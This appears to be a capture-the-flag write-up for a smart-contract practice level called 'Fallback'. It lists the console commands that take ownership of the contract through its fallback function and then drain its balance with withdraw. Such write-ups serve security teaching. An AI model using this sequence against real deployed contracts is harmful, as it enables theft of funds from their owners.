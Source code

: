 # Fallback

You will beat this level if:

- you claim ownership of the contract
- you reduce its balance to 0

## Solution

1. Noticed that the fallback function has the ability to change the owner
2. Viewed owner contributions with `await contract.contributions(await contract.owner())`
3. Made a minor contribution with `await contract.contribute({ value: 1 })`
4. Triggered the fallback function (and took ownership) with `await contract.send(1e17)`
5. Drained the contract with `await contract.withdraw()`
